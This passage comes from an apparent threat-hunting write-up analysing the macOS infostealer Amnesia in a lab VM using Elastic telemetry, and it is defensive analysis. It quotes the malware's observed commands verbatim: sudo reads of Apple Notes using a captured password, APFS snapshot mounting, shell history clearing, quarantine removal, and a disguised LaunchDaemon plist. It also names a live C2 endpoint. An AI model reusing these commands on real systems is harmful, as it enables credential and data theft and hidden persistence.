| Artifact | Observed content | What it suggested |
|---|---|---|
| `.botid` | `1` | Bot or victim identifier |
| `.chost` | `https://debug.allllowef.space/api/bot/actions` | C2 / tasking endpoint |
| `.pwd` | Captured VM password | User credential stored locally in plaintext |

`.botid` contained:

```text
1
```

which appears to act as a bot or victim identifier.

`.chost` contained:

```text
https://debug.allllowef.space/api/bot/actions
```

This was a useful correlation because the artifact pointed back to the same infrastructure I had already seen through the earlier `curl` command lines and Elastic network telemetry. The final file, `.pwd`, was more significant. Its contents matched the password I had entered into the fake authentication prompt during execution.

I have deliberately left the actual value out of the post, but this confirmed that the credential entered by the user was being stored locally in plaintext. That tied several earlier observations together:

```text
password entered
      ↓
stored in ~/.pwd
      ↓
validated with dscl
      ↓
used with sudo
      ↓
used to unlock login.keychain-db
```

The password prompt was therefore not simply a visual lure. The value was retained and actively reused later in the execution.

### Following the `.stream` artifacts

The other cluster exposed by the `file.path` statistics was:

```text
~/.local/share/.stream/
```

Inspecting that directory directly showed several browser-specific files:

```text
.arc_key
.bot_id
.brave_key
.chrome_key
.chromium_key
.coccoc_key
.edge_key
.opera_key
.vivaldi_key
.yandex_key
```



Most of the browser key files were very small. Several were only six bytes long and contained the same short value. That raised another question.

Had Amnesia actually recovered usable browser encryption material, or were these intermediate or fallback artifacts created by the collection routine? The surviving diagnostic files helped provide some context.

### Browser targeting was broader than what actually existed in the VM

One of the useful artifacts was:

```text
browser_diag.txt
```

It contained a list of browser profile locations Amnesia checked.

The visible entries included browsers such as:

```text
Chrome
Firefox
Waterfox
Brave
Edge
Vivaldi
Yandex
Opera
OperaGX
Arc
CocCoc
Chrome Beta
Chrome Canary
Chrome Dev
Chromium
Thorium
Sidekick
Wavebox
```

However, in my VM many of those checks returned:

```text
exists=false
```



That distinction matters. The diagnostic file shows that Amnesia contains collection logic targeting those browser locations.

It does **not** mean credentials were successfully collected from every browser listed there. Most of those browser profiles simply did not exist in my VM.

Another artifact, `controller_diag.txt`, provided more context around the browser-related files:

```text
safe_storage_keys_count=9
chrome_key_source=keychain
```

It then listed browser-key entries for:

```text
Chromium
Edge
Chrome
Yandex
CocCoc
Arc
Opera
Brave
Vivaldi
```



This lined up almost exactly with the hidden `*_key` files I had found under `.stream`. The remaining question was what those very small files actually represented.

`masterkey_diag.txt` provided another clue:

```text
keychain_path=/Users/jason/Library/Keychains/login.keychain-db
macos_ver=26
phase4: file_parse (fallback)

FILE Chrome=6 bytes
FILE Chromium=6 bytes
FILE Brave=6 bytes
FILE Opera=6 bytes
FILE Vivaldi=6 bytes
FILE Edge=6 bytes
FILE Yandex=6 bytes
FILE Arc=6 bytes
FILE CocCoc=6 bytes

result=9 keys
```



This was useful for two reasons.

First, the diagnostic file explicitly referenced:

```text
/Users/jason/Library/Keychains/login.keychain-db
```

which was the same database I had already watched the payload access repeatedly in Elastic.

That independently corroborated the earlier Keychain telemetry.

Second, the diagnostic output described this stage as:

```text
file_parse (fallback)
```

and each resulting browser file was only six bytes long.

Because the corresponding browser profiles were largely absent from this VM, and because several of the resulting files contained the same very short value, I would not describe them as confirmed recovered browser master keys.

The safer conclusion from my dataset is that Amnesia attempted its browser Safe Storage / Keychain collection routine, fell back to a file-parsing path and produced these browser-specific artifacts as part of that workflow.

Whether those six-byte values would have been useful against an actually populated browser profile would require going deeper into the malware's implementation, which was outside the scope of this hunt.

From the hunting perspective, the useful part was how I arrived here:

```text
process tree
      ↓
file events from the same process relationship
      ↓
Field statistics on file.path
      ↓
random /private/tmp staging directory
      ↓
FileGrabber and collected artifacts
      ↓
hidden home-directory state
      ↓
~/.local/share/.stream/
      ↓
browser diagnostic files
      ↓
correlation back to login.keychain-db
```

Moving away from the process view for a moment exposed an entirely different side of the stealer's activity, while still keeping the investigation tied back to the same process ancestry that led me there in the first place.

### System and hardware fingerprinting

Continuing down the same parent process tree showed a fairly standard set of victim-enumeration commands. A simple hunt for command line invocations of these common hardware/software enumerations would do the trick. 

```text
process.command_line : *ioreg* or process.command_line : *system_profiler* or process.command_line : *sw_vers*
```
Below were the command lines observed that originated from the same parent command line which was ```/tmp/.com.apple.dt.77002```

```text
sh -c ioreg -rd1 -c IOPlatformExpertDevice 2>/dev/null | awk '/IOPlatformUUID/ { gsub(/"/, "", $3); print $3 }'
ioreg -rd1 -c IOPlatformExpertDevice
sh -c ioreg -rd1 -c IOPlatformExpertDevice 2>/dev/null | awk '/IOPlatformSerialNumber/ { gsub(/"/, "", $4); print $4 }'
sh -c system_profiler SPSoftwareDataType SPHardwareDataType SPDisplaysDataType 2>/dev/null
system_profiler SPSoftwareDataType SPHardwareDataType SPDisplaysDataType
awk /IOPlatformUUID/ { gsub(/"/, "", $3); print $3 }
sh -c sw_vers -productVersion
```

This was not especially surprising for an infostealer. Together, commands like `sw_vers`, `system_profiler`, `ioreg`, `whoami` and application enumeration provide enough information to build a useful victim fingerprint.

### Apple Notes became another collection target

Other than browser history and cookies, Apple Notes are also a common path targeted by infostealers. The process tree also showed repeated attempts to read Apple Notes data.

The relevant database was:

```text
/Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite
```

A direct read looked like:

```bash
cat "/Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite"
sh -c cat '/Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite' 2>/dev/null
```

The more interesting variant reused the captured password:

```bash
sh -c echo '140298' | sudo -S cat '/Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite' > '/tmp/_notes_tmp_NoteStore.sqlite'
```

At this point the password theft was clearly being operationalized. It had already been validated against the local account and used for Keychain operations. Now it was also being supplied to `sudo` to access data that direct collection could not obtain.

The file telemetry gave me another useful piece of the Notes collection workflow. I wanted to see for any file activities related to the Notes activity. Perhaps, there will be action type of access or open. 

Searching for Notes-related file activity:

```text
file.path : *NoteStore.sqlite* and event.category : "file"
```

showed the Amnesia process deleting three temporary artifacts under `/private/tmp`:

```text
/private/tmp/_notes_tmp_NoteStore.sqlite
/private/tmp/_notes_tmp_NoteStore.sqlite-shm
/private/tmp/_notes_tmp_NoteStore.sqlite-wal
```



All three events were associated with:

```text
/private/tmp/.com.apple.dt.77002
PID 14499
```

This is an important distinction: the malware was **not deleting the user's original Apple Notes database** from:

```text
~/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite
```

Instead, these were temporary Notes-related copies under `/private/tmp`.

The three filenames also correspond to the normal set of files associated with an SQLite database:

| File | Purpose |
|---|---|
| `NoteStore.sqlite` | Main SQLite database |
| `NoteStore.sqlite-shm` | Shared-memory file used by SQLite WAL mode |
| `NoteStore.sqlite-wal` | Write-ahead log containing recent database changes |

Earlier process telemetry had already shown Amnesia attempting to read the original Notes database, including attempts using the captured password with `sudo`.

The deletion events suggest that temporary copies of the Notes database and its companion files were created as part of that collection workflow and then removed once they were no longer needed.

From the telemetry I can confirm the cleanup of those temporary copies. I would not claim exactly how they were created unless the corresponding creation or copy events are also present.

This gave the Notes activity a clearer sequence:

```text
original Apple Notes database
        ↓
direct read attempt
        ↓
privileged read using captured password
        ↓
temporary Notes artifacts under /private/tmp
        ↓
collection processing
        ↓
temporary SQLite / WAL / SHM files deleted
```

### A strange `tmutil` and `mount_apfs` pivot

While continuing to review the child processes spawned by `.com.apple.dt.77002`, I noticed activity involving `tmutil`. That stood out because `tmutil` is normally associated with Time Machine administration rather than the usual browser and Keychain collection commands I had been seeing.

I broadened the search to look for both `tmutil` and `mount_apfs` activity:

```text
process.command_line : *tmutil* or process.command_line : *mount_apfs*
```

The first interesting command was:

```bash
tmutil localsnapshot
```

`tmutil localsnapshot` asks macOS to create a local Time Machine snapshot of the APFS volume.

A few seconds later, the malware used the password captured earlier in the execution and passed it to `sudo`:

```bash
sh -c echo '140298' | sudo -S mount_apfs -o nobrowse -s 'com.apple.TimeMachine.2026-08-17-065038.local' /System/Volumes/Data '/tmp/.snap_read'
```



There are several interesting parts to this command.

`mount_apfs` is the macOS utility used to mount APFS filesystems and snapshots. The `-s` argument specifies the snapshot that should be mounted:

```text
com.apple.TimeMachine.2026-08-17-065038.local
```

The source volume was:

```text
/System/Volumes/Data
```

and the snapshot was mounted under:

```text
/tmp/.snap_read
```

The malware also used:

```text
-o nobrowse
```

which tells macOS not to expose the mounted volume as a normally browsable volume in Finder.

So the sequence I was seeing was effectively:

```text
tmutil localsnapshot
        ↓
create point-in-time APFS snapshot
        ↓
captured password passed to sudo
        ↓
mount_apfs -s <snapshot>
        ↓
snapshot mounted at /tmp/.snap_read
```

This was interesting because the malware had created an alternate, point-in-time view of the Data volume rather than relying only on files from the live filesystem.

An APFS snapshot preserves the state of the filesystem at the time the snapshot was created. From a collection perspective, that can give a process another copy of files to work with while the live versions may be changing, locked or otherwise difficult to collect directly.

I later found a second, very similar sequence involving another Time Machine snapshot:

```bash
sh -c echo '140298' | sudo -S mount_apfs -o nobrowse -s 'com.apple.TimeMachine.2026-08-17-065112.local' /System/Volumes/Data '/tmp/.snap_tcc'
```

The destination name was particularly noticeable:

```text
/tmp/.snap_tcc
```

The name strongly suggests that this snapshot was intended for some form of privacy/TCC-related collection.

What I can directly confirm from the Elastic telemetry is that the malware:

1. created local Time Machine snapshots;
2. reused the captured user password with `sudo`;
3. mounted those snapshots through `mount_apfs`;
4. mounted them beneath hidden-looking paths under `/tmp`;
5. and later removed the snapshots.

Jamf's analysis provides additional context around Amnesia containing snapshot-based privacy-access logic, but from my endpoint telemetry I am limiting the conclusion to what I actually observed.

The cleanup was also visible:

```bash
tmutil deletelocalsnapshots 2026-08-17-065038
```

and a similar deletion occurred for the later snapshot.

That gives the activity a fairly clear lifecycle:

```text
create local snapshot
        ↓
mount snapshot under /tmp
        ↓
use snapshot-backed filesystem view
        ↓
continue collection
        ↓
delete local snapshot
```

From a hunting perspective, this is one of the more interesting behaviors in the dataset.

Commands such as `system_profiler`, `ioreg`, `security` and `curl` are common enough that they need quite a lot of context before they become suspicious.

A process under `/tmp` spawning `tmutil`, followed almost immediately by a privileged `mount_apfs -s` into another hidden `/tmp` path, is much less routine.

That makes the combination of:

```text
tmutil localsnapshot
+
mount_apfs -s
+
-o nobrowse
+
/tmp/.snap_*
```

a useful behavior to consider when hunting similar macOS stealers.

### Packaging the collected data

Eventually the process tree showed what happened to that random staging directory.

First, ownership was adjusted:

```bash
sudo -S chown -R jason /tmp/dUvV2FVcZkOrcH8Os4nOdw2fL
```

Then the entire directory was archived:

```bash
ditto -c -k --sequesterRsrc /tmp/dUvV2FVcZkOrcH8Os4nOdw2fL /tmp/dUvV2FVcZkOrcH8Os4nOdw2fL.zip
```



`ditto` is a normal macOS utility.

Here:

- `-c` creates an archive;
- `-k` uses ZIP format;
- `--sequesterRsrc` preserves resource-fork and related metadata.

At this point the collection path was fairly clear:

```text
Keychain / browser / Notes / system data
            ↓
random directory under /tmp
            ↓
ownership adjusted
            ↓
ditto
            ↓
random ZIP under /tmp
```

### Hunting for persistence

Another useful branch of the hunt came from looking broadly at common macOS persistence locations. I searched file activity involving LaunchDaemons and LaunchAgents rather than starting from the exact malicious filename:

```text
event.category : "file" and (
  file.path : "/Library/LaunchDaemons/*" or
  file.path : "/Library/LaunchAgents/*" or
  file.path : "/Users/*/Library/LaunchAgents/*"
)
```

LaunchAgents and LaunchDaemons are `launchd` jobs. They are not a perfect one-to-one equivalent of Windows Scheduled Tasks; they are closer to macOS startup/autostart and service-style persistence.

A file immediately stood out:

```text
/Library/LaunchDaemons/com.apple.ReportCrash.agent_68910896.plist
```

The writer was `/bin/cp`. The filename tried to resemble an Apple `ReportCrash` component, but the random numeric suffix and the surrounding activity made it worth inspecting.

A surviving artifact under:

```text
/tmp/starter
```

contained the corresponding plist configuration:

```xml
<key>KeepAlive</key>
<true/>

<key>Label</key>
<string>com.apple.ReportCrash.agent_68910896</string>

<key>ProgramArguments</key>
<array>
  <string>/tmp/.com.apple.dt.77002</string>
</array>

<key>UserName</key>
<string>jason</string>

<key>RunAtLoad</key>
<true/>
```



Several things were immediately interesting:

- `RunAtLoad` was enabled;
- `KeepAlive` was enabled;
- the label looked Apple-related;
- but the actual executable was the hidden payload under `/tmp`.

The process telemetry then showed the installation sequence:

```bash
sudo -S cp /tmp/starter /Library/LaunchDaemons/com.apple.ReportCrash.agent_68910896.plist
```

The resulting `/bin/cp` process generated an Elastic event classified as:

```text
event.action: launch_daemon
```



The process ancestry around the write included:

```text
.com.apple.dt.77002
        ↓
sudo
        ↓
sudo
        ↓
cp
```

with the `cp` process observed around PID `14745`. The malware did not simply drop the plist and wait for a reboot.

It immediately registered it:

```bash
sudo -S launchctl bootstrap system /Library/LaunchDaemons/com.apple.ReportCrash.agent_68910896.plist
```



`launchctl bootstrap system` loads the job into the system `launchd` domain.

So what I could confirm was:

```text
/tmp/starter
      ↓
sudo cp
      ↓
/Library/LaunchDaemons/com.apple.ReportCrash.agent_68910896.plist
      ↓
launchctl bootstrap system
      ↓
LaunchDaemon registered
```
I did not rely on the existence of the plist alone; the process telemetry showed the stealer actively installing and loading it.

### Cleanup was happening all the way through

Cleanup was not one single event at the end. Cleanup was not a single event at the end; Amnesia removed artifacts throughout execution.

I observed:

```bash
rm -f /tmp/._77002.zip
```

after extraction.

Then:

```bash
rm -f /tmp/.com.apple.dt.77002
```

shortly after launching the payload. There were also short-lived files in the `private/tmp` such as:

```text
.write_test
package.json
```

which were created, modified, renamed or deleted during the collection workflow. The malware also attempted:

```bash
history -c 2>/dev/null; true
```

This looks like an attempt to clear shell history while suppressing errors.

The Time Machine snapshots were also deleted after use:

```bash
tmutil deletelocalsnapshots ...
```

And, as mentioned earlier, the quarantine attribute was explicitly targeted:

```bash
xattr -d com.apple.quarantine /tmp/.com.apple.dt.77002
```

Because several of the temporary artifacts were removed using `rm`, they would not normally appear in the macOS Trash.

My lab was also rebooted later, so some `/private/tmp` content was no longer available for direct inspection. This is one area where the endpoint telemetry became more valuable than the live filesystem: the files were gone, but the creation, access and deletion events still gave me enough to reconstruct much of what happened.

### What survived after the execution

A few artifacts were still useful after the temporary staging area was gone.

| Artifact | What it showed |
|---|---|
| `~/.botid` | Bot/victim identifier |
| `~/.chost` | C2/API endpoint |
| `~/.pwd` | Captured password stored in plaintext |
| `~/.local/share/.stream/*_key` | Browser-related collection state |
| `browser_diag.txt` | Browser profile checks |
| `controller_diag.txt` | Browser-key collection state |
| `masterkey_diag.txt` | Keychain path and fallback parsing information |
| `ks_diag.txt` | Additional Keychain-related diagnostic state |
| `/tmp/starter` | LaunchDaemon plist template |

What made this part of the investigation useful was the way the endpoint telemetry and surviving artifacts corroborated each other. Elastic showed the payload accessing `login.keychain-db`, while `masterkey_diag.txt` referenced that same Keychain database directly. 

The LaunchDaemon write was visible in the telemetry, and the surviving `starter` plist showed exactly what the persistence entry was configured to execute. The same pattern held for the C2 activity: Elastic captured connections to the malicious infrastructure, while `.chost` preserved the `/api/bot/actions` endpoint locally. Looking at both sources together made the activity much easier to interpret than treating process, file and artifact evidence as separate parts of the investigation.

### A brief look at `stream_module`

Jamf also documented a second-stage `stream_module` associated with Amnesia's remote browser-control capability. That module did not appear in the original execution chain I reconstructed above. Later, I tried running the recovered `stream_module` separately in the lab.

It immediately exited with:

```text
Error: STREAM_PAYLOAD env not set

Caused by:
    environment variable not found
```



That was useful in its own way. It showed that the module expected runtime configuration through:

```text
STREAM_PAYLOAD
```

rather than behaving as a completely standalone component. I did not force this into the original timeline because I did not observe the corresponding operator-triggered second stage in the original Elastic dataset.

### Expanding the network hunt beyond the main C2

Earlier in the investigation, the `curl` activity had already exposed the main Amnesia infrastructure:

```text
debug.allllowef.space
138.124.70.84
```

That gave me the obvious C2 pivot, but I also wanted to see whether the payload itself was making any other outbound connections that were not visible from the initial `curl` activity.

So I broadened the search to all network events with a resolved destination domain:

```text
event.category : "network"
and destination.domain : *
```



The first events were the expected `curl` connections back to:

```text
debug.allllowef.space
138.124.70.84
```

More interestingly, a few seconds later the running Amnesia payload itself:

```text
/private/tmp/.com.apple.dt.77002
```

connected to:

```text
freeipapi.com
104.21.94.136
```

and:

```text
free.freeipapi.com
172.67.168.79
```

This was useful because these connections were not coming from the original `curl` process. They were generated directly by the stealer after execution. The timing also lined up with the host-enumeration activity I had already observed through commands such as:

```text
whoami
sw_vers
system_profiler
ioreg
```

Taken together, the `freeipapi.com` connections are consistent with the malware enriching its local system information with externally visible IP or geolocation data.

From the Elastic telemetry alone, I can confirm that the payload established the outbound connections. I cannot see the full HTTPS request or response body, so I would not claim exactly which API fields were retrieved without additional network visibility. What made the connection useful from a hunting perspective was the process context:

```text
/private/tmp/.com.apple.dt.77002
        ↓
freeipapi.com
free.freeipapi.com
```

A public IP/geolocation service is not malicious by itself, and legitimate applications may use the same service. The interesting part was an unknown hidden executable under `/private/tmp` contacting an external IP-information service immediately after performing local host fingerprinting.

This gave the victim-profiling activity another layer:

```text
local username
      ↓
macOS version
      ↓
hardware UUID / serial number
      ↓
installed applications
      ↓
public IP / external network information
```

It was another example of why I found it useful to periodically step back from the exact C2 domain and look at all outbound network activity generated by the same execution chain.

## Lessons Learnt

